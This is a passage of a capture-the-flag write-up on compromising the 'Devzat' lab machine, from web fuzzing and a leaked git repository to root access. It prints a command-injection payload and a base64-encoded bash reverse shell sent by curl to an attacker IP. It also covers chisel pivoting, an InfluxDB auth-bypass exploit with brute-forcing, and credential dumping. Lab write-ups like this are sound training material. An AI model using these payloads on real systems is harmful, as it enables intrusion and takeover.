From the main page, there are some information worth to take a note:

- email: patrick@devzat.htb
- possible username = patrick
- ssh server and services available
    - `ssh -l [username] devzat.htb -p 8000`

Next, we perform web directory fuzzing using `gobuster` to find hidden web directories.

<details><summary>Gobuster Directory Fuzzing</summary>

```bash
http://devzat.htb/.hta                 (Status: 403) [Size: 275]
http://devzat.htb/.htpasswd            (Status: 403) [Size: 275]
http://devzat.htb/assets               (Status: 301) [Size: 309] [--> http://devzat.htb/assets/]
http://devzat.htb/.htaccess            (Status: 403) [Size: 275]
http://devzat.htb/images               (Status: 301) [Size: 309] [--> http://devzat.htb/images/]
http://devzat.htb/index.html           (Status: 200) [Size: 6527]
http://devzat.htb/javascript           (Status: 301) [Size: 313] [--> http://devzat.htb/javascript/]
http://devzat.htb/server-status        (Status: 403) [Size: 275]
```

</details>

Nothing is positive on `Gobuster` result.

We also perform `nikto` scan for vulnerabilities.

<details><summary>Nikto scan for port 80 of forge.htb</summary>

```bash
- Nikto v2.1.6/2.1.5
+ Target Host: devzat.htb
+ Target Port: 80
+ GET The anti-clickjacking X-Frame-Options header is not present.
+ GET The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ GET The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ GET Server may leak inodes via ETags, header found with file /, inode: 197f, size: 5c570e80059d3, mtime: gzip
+ OPTIONS Allowed HTTP Methods: GET, POST, OPTIONS, HEAD
+ OSVDB-3268: GET /images/: Directory indexing found.
+ OSVDB-3092: GET /LICENSE.txt: License file found may identify site software.
+ GET The anti-clickjacking X-Frame-Options header is not present.
+ GET The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ GET The site uses SSL and the Strict-Transport-Security HTTP header is not defined.
+ GET The site uses SSL and Expect-CT header is not present.
```

</details>

Nothing is positive on `nikto` result.

<br />

#### Virtual host fuzzing

We perform virtual host fuzzing using `Gobuster` of the base domain which is "devzat.htb", this will allow us to check if there is more than one web site available.

However, `Gobuster` unable to yield any result, not sure why is that. Hence, we are using `ffuf` here which is an alternative fuzzing tools.

We are using `SecLists` > `Discovery` > `DNS` > `subdomains-top1million-110000.txt`

<details><summary>ffuf vhost scan for "devzat.htb"</summary>

```markdown
  | FUZZ | URL | Redirectlocation | Position | Status Code | Content Length | Content Words | Content Lines | Content Type | ResultFile |
  | :- | :-- | :--------------- | :---- | :------- | :---------- | :------------- | :------------ | :--------- | :----------- |
  | pets | http://devzat.htb/ |  | 3745 | 200 | 510 | 20 | 21 | text/html; charset=utf-8 | 47de7dd2ae68e08b386f78256784c4d5 |
```

</details>

From ffuf result, there is an "pets" page.

With the virtual host found, added to our host file.

<br />

#### Checking on pets.devzat.htb

pets.devzat.htb Main Page:


It is a pet inventory page, we can add pet with the name as well.

Next, we perform web directory fuzzing using `gobuster` to find hidden web directories.

<details><summary>Gobuster Directory Fuzzing</summary>

```bash
http://pets.devzat.htb/.git/HEAD            (Status: 200) [Size: 23]
http://pets.devzat.htb/build                (Status: 301) [Size: 42] [--> /build/]
http://pets.devzat.htb/css                  (Status: 301) [Size: 40] [--> /css/]
http://pets.devzat.htb/server-status        (Status: 403) [Size: 280]
```

</details>

There is a git source code available, let's download it with command below:

```bash
wget -r -np -R "index.html*" http://pets.devzat.htb/.git
```

<br />

### Enumeration of git source code

We then use ` git status ` to check on the git repository.

```bash
❯ git status | tee git-status-output
On branch master
Changes not staged for commit:
  (use "git add/rm <file>..." to update what will be committed)
  (use "git restore <file>..." to discard changes in working directory)
        deleted:    .gitignore
        deleted:    characteristics/bluewhale
        deleted:    characteristics/cat
        deleted:    characteristics/dog
        deleted:    characteristics/giraffe
        deleted:    characteristics/gopher
        deleted:    characteristics/petshop
        deleted:    characteristics/redkite
        deleted:    go.mod
        deleted:    go.sum
        deleted:    main.go
        deleted:    petshop
        deleted:    start.sh
        deleted:    static/.gitignore
        deleted:    static/README.md
        deleted:    static/package.json
        deleted:    static/public/css/all.min.css
        deleted:    static/public/css/bootstrap.min.css
        deleted:    static/public/css/global.css
        deleted:    static/public/favicon.ico
        deleted:    static/public/index.html
        deleted:    static/public/webfonts/fa-brands-400.eot
        deleted:    static/public/webfonts/fa-brands-400.svg
        deleted:    static/public/webfonts/fa-brands-400.ttf
        deleted:    static/public/webfonts/fa-brands-400.woff
        deleted:    static/public/webfonts/fa-brands-400.woff2
        deleted:    static/public/webfonts/fa-regular-400.eot
        deleted:    static/public/webfonts/fa-regular-400.svg
        deleted:    static/public/webfonts/fa-regular-400.ttf
        deleted:    static/public/webfonts/fa-regular-400.woff
        deleted:    static/public/webfonts/fa-regular-400.woff2
        deleted:    static/public/webfonts/fa-solid-900.eot
        deleted:    static/public/webfonts/fa-solid-900.svg
        deleted:    static/public/webfonts/fa-solid-900.ttf
        deleted:    static/public/webfonts/fa-solid-900.woff
        deleted:    static/public/webfonts/fa-solid-900.woff2
        deleted:    static/rollup.config.js
        deleted:    static/src/App.svelte
        deleted:    static/src/main.js

Untracked files:
  (use "git add <file>..." to include in what will be committed)
        git-status-output
        robots.txt

no changes added to commit (use "git add" and/or "git commit -a")
```

From the git status, we know that developer deleted some of the files.

Let's use ` git checkout -- . ` to reset the repository to last commit state.

Here is the files restored from the git checkout reset command:


Checking the source code - `main.go`

We found some interesting command execution in the "species" field:



The source code found is corresponding to pets.devzat.htb.

<br />

### Command Injection vulnerability

From the source code, the application might vulnerable to command injection.

Let's try out using simple payload, we are using `ping` command here.

Why we choose `ping`? As we tested other command such as `whoami`, the page does not reflect the response, however `ping` on the other hand, we can setup wireshark or tcpdump to capture the ping request.

This will help us confirm the application is vulnerable to command injection.

Note: you can use burp or owasp zap to do it, we are using curl command here

```
curl -v -X POST "http://pets.devzat.htb/api/pet" -d '{"name":"test1","species":"cat;ping -c 3 10.10.14.83"}'
```

Before we execute the command above, setup wireshark or tcpdump to capture the ping request.


Here we go, the ping request is sending to attacker machines.

Next, we can craft our reverse shell payload with base64 encoded (this is to ensure the command is executed without rendering issue):

```
echo -n 'bash -i >& /dev/tcp/10.10.14.83/9001 0>&1' | base64
```

We have prepared our reverse shell payload, let's combined to the curl command.

```
curl -v -X POST "http://pets.devzat.htb/api/pet" -d '{"name":"test1","species":"cat;echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44My85MDAxIDA+JjE= | base64 -d | bash"}'
```

Before execute the reverse shell code, ensure you spin up netcat listener.

<br />

### Reverse Shell Access

Now, we have the reverse shell working.


The user we have access is `patrick`



<br />

### Persistent access

Since we do not have the password for `patrick`, let's try to check if any ssh key available.


Now, we can ssh to the box using patrick ssh key.

Next, we try to search if we can read user.txt

```
find / -type f -name "user.txt" -ls 2>/dev/null
```

Unfortunately, we do not have the read permission.


<br />

### Enumerate System

We then perform manual enumeration.

Checking netstat for network connection.


There are some strange port binding - `8086` and `8443`

We search what are those process using the port.


However, we only able to get the process that use 8086; probably we do not have permission to check the other one.

Though, you can use `linpeas` to find out above as well.

You have notice that the port `8086` is running on localhost which we have no access from our attacker machine.

<br />

### Network pivoting

We can use tools like `chisel` to port forward back to our attacker machine, this technique is called - `network pivoting`.

First upload `chisel` to the patrick home directory.

On our local attacker machine (windows), spin up chisel server using command below:

```
.\chisel.exe server -p 8000 --reverse
```

Then, on the patrick ssh session spin up chisel client connect back to our attacker machine chisel server, the port forward the `8086` to our attacker machine localhost `8086`.

```
./chisel client 10.10.14.83:8000 R:8086:127.0.0.1:8086
```

We have the chisel working now


We can use nmap to test out if we can reach the port `8086`.



From the nmap result, the port 8086 is running with InfluxDB http services.

Let's try to search if any vulnerability or exploit can be found, and [here is what we found](https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933)

```
Exploit for InfluxDB CVE-2019-20933 vulnerability, InfluxDB before 1.7.6 has an authentication bypass vulnerability in the authenticate function in services/httpd/handler.go because a JWT token may have an empty SharedSecret (aka shared secret). 

Exploit check if server is vulnerable, then it tries to get a remote query shell. 

It has built in a username bruteforce service.
```

<br />

### InfluxDB CVE-2019-20933 vulnerability

Follow the github link to InfluxDB CVE-2019-20933 vulnerability, we follow the instruction and install all the requirement.

Since it will try to bruteforce the username, we need to supply username wordlist.

We are using "SecLists" > "Usernames" > "Names" > "names.txt"


After we run it and the exploit is successfully bruteforce.


We now can enumerate through the "devzat" database, if you research with best friend - Google, you will get one of the article on [how to check what are the tables available in the InfluxDB](https://community.influxdata.com/t/show-tables-in-a-database/5130/3).

Command to show all the tables available in the database:

```
SHOW MEASUREMENTS
```

Here is the table inside "devzat" database:


Let's try to dump the table out.


<br />

### Lateral move from user - patrick

As we have a few credentials that dump from the "user" table from "devzat" of InfluxDB, we can login to those users.

If you enumerate the system, you will notice there is one user matching the user in the system - `catherine`

We try to ssh in using `catherine` user, however, the system only allow ssh with public key, so just switch user from patrick account.



We get our user.txt.

Next, we perform basic enumeration. Checking sudo and suid, nothing positive.

After awhile of the enumeration, we found out `/var/backups` contain some interesting backup.


Unzip it and use `diff` command to check what are the different between those two.

From the `diff` command, the "dev" environment implement file reading function using `file` command with password protection.

The "dev" environment is running on localhost port 8443, hence from the initial enumeration using patrick account unable to check the process running 8443.


As you know, the system does not has nc. If you use chisel port forward, connect with nc, it show - `SSH-2.0-Go`:


With that information, it is matching devzat.htb stated in their website; there is ssh service available.

We can try to connect to it using ssh directly from patrick ssh session or if you using chisel port forward as well.


We try the `/file`, it prompt to provide a file to print and password as well.


Why we know it require the `/`? You may try to connect to port 8000 of devzat.htb, that from the initial rustscan result shown.


Back to our port 8443, we try to supply root.txt along with the password we get from the diff command to read it.


It show the error of no file found because the file path.

Let's try again.


And we have our root.txt.

Bonus: We can try to retrieve the root ssh key as well.


<br />

---

> Do let me know any command or step can be improve or you have any question you can contact me via THM message or write down comment below or via FB

